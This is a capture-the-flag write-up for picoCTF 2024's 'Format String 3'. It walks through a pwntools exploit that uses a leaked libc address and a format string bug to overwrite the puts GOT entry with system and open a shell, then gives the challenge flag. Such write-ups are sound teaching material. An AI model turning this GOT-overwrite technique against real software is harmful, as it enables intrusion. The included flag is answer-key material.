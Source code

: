 # Format String 3 - picoCTF 2024

## Description
This program doesn't contain a win function. How can you win?
Download the binary [here](https://play.picoctf.org/practice/challenge/449?originalEvent=73&page=2).
Download the source [here](https://play.picoctf.org/practice/challenge/449?originalEvent=73&page=2).
Download libc [here](https://play.picoctf.org/practice/challenge/449?originalEvent=73&page=2), download the interpreter [here](https://play.picoctf.org/practice/challenge/449?originalEvent=73&page=2). Run the binary with these two files present in the same directory.
nc rhea.picoctf.net 57040

## My Approach
Let's analyze the `format-string-3.c` file to get a grasp of the program. The program's output look particularly like this:
```
Howdy gamers!
Okay I'll be nice. Here's the address of setvbuf in libc: 0x74749008a3f0
```
From the `format-string-3.c` file, the value `0x74749008a3f0` is the address of the `setvbuf`. This address will change everytime we reconnect to the challenge. One noticeable variable is the string `normal_string` has the value "/bin/sh", which can help us easily trigger `system("/bin/sh");` in C program. All we have to do is somehow changing the `puts` function into `system` function. We can do this by overwrite the GOT entry for the `puts` function into `system` function. We will perform this by exploiting format string vulnerability. To read more about this vulnerability, please check this [book](https://cs155.stanford.edu/papers/formatstring-1.2.pdf)

### Finding the GOT address of the `puts` function
There are many ways to find it. The fastest way is to use command `objdump -d format-string-3` piped with command `grep puts` to disassemble all the functions used in `format-string-3` and find the `puts` function:
```
$ objdump -d format-string-3 | grep puts
0000000000401080 <puts@plt>:
  401084:       f2 ff 25 8d 2f 00 00    bnd jmp *0x2f8d(%rip)        # 404018 <puts@GLIBC_2.2.5>
  40121d:       e8 5e fe ff ff          call   401080 <puts@plt>
  4012f2:       e8 89 fd ff ff          call   401080 <puts@plt>
```
The GOT entry for `puts` is right before the `<puts@GLIBC_2.2.5>`, which is `0x404018`. You can also use tools like `gdb` or `ghidra` to disassemble the `puts` function but I found this way more convenient. You can also use `python3` to find it:
```
# elf = ELF("format-string-3")
# puts_got = elf.got['puts']
# print(hex(puts_got))
```

### Finding the base address of libc
Some functions like `setvbuf` and `system` are located in libc. However, the location of libc in memory is determined by runtime, which explains why we have different address of `setvbuf` each time we reconnect. This process (called ASLR) is used to defend certain type of attacks and the base address of libc changes due to this. To find it, we can subtract the address value of `setvbuf` we get from the server with the actual address of `setvbuf` in libc file. Finding this base address isn't hard but first we have to find the address of `setvbuf` in libc file:
```
$ objdump -d libc.so.6 | grep setvbuf
000000000007a3f0 <_IO_setvbuf@@GLIBC_2.2.5>:
```
Now we can calculate the base address of libc. Remember, this base address changes everytime we reconnect to the server. Using `pwn` library can help the tasks flow smoother:
```
#!/usr/bin/env python3

from pwn import *

context.arch = 'amd64'

def conn():
    # if args.LOCAL:
    #     r = process([exe.path])
    #     if args.DEBUG:
    #         gdb.attach(r)
    # else:
    r = remote("rhea.picoctf.net", 57040)

    return r
p = conn()
p.recvline()
setvbuf_mem = int(p.recvline()[-13:-1],16) # Extracting the address of setvbuf in server's memory and convert it into integer
setvbuf_libc = 0x07a3f0
libc_base = setvbuf_mem-setvbuf_libc
```

### Calculating the address of `system` in memory
To calculate the actual address of `system` from the server, we can add the address of `system` from libc file to the base address of libc. First, the address of `system` in libc file can be found using the same way (in this case, it's 0x4f760):
```
$ objdump -d libc.so.6 | grep system
000000000004f760 <__libc_system@@GLIBC_PRIVATE>:
   4f767:       74 07                   je     4f770 <__libc_system@@GLIBC_PRIVATE+0x10>
```
Now, we calculate:
```
system_libc = 0x4f760
system_mem = libc+system_libc
```

### Overwriting the GOT entry for `puts` into `system`
We're gonna use `fmtstr_payload` to overwrite the value of the GOT entry for `puts`. To do this, we first need to find the offset value. By spamming `%p`, we can see the offset:
```
p=conn()
p.sendline(b'%p.'*50)
p.recvline()
p.recvline()
print(p.recvline())
```
And, the output is like this:
```
python3 solution.py
[+] Opening connection to rhea.picoctf.net on port 52872: Done
b'0x796376407963.0xfbad208b.0x7ffdc650ab60.0x1.(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.\n'
[*] Closed connection to rhea.picoctf.net port 52872
```
Until the string `%p.` are repeated (which is 0x70252e in hex), there are 38 chunks of `%p.` shows different value. We can adjusting the number repeated downto 38:
```
p=conn()
p.sendline(b'%p.'*38)
p.recvline()
p.recvline()
print(p.recvline())
```
And, the output is like this:
```
python3 solution.py
[+] Opening connection to rhea.picoctf.net on port 52872: Done
b'0x78b5b22a6963.0xfbad208b.0x7ffe74629b80.0x1.(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).0x70252e70252e7025.\n'
[*] Closed connection to rhea.picoctf.net port 52872
```
The offset is 38. Put everything together, we can send our payload like this:
```
payload = fmtstr_payload(38, {puts_got: system_mem})
p.sendline(payload)
p.sendline(b"ls")
for i in range(10):
    print(p.recvline())
```
The output looks like this:
```
 python3 solution.py
[*] '/home/zedttxj/test/format-string-3'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)
    RUNPATH:  b'.'
0x404018
[+] Opening connection to rhea.picoctf.net on port 52872: Done
b'                                                                                               c               \x8b                                                         \xf0            \x01                       \x00
                                                         \x00aaaaba\x18@@Makefile\n'
b'artifacts.tar.gz\n'
b'flag.txt\n'
b'format-string-3\n'
b'format-string-3.c\n'
b'ld-linux-x86-64.so.2\n'
b'libc.so.6\n'
b'metadata.json\n'
b'profile\n'
```
We successfully execute another `/bin/sh` shell. We also listed all the files in the current directive using `ls` and found out `flag.txt`. By adding `p.interactive()` at the end of the code, you can interact with the shell.
```
p.sendline(payload)
p.interactive()
```
picoCTF{G07_G07?_cf6cb591}
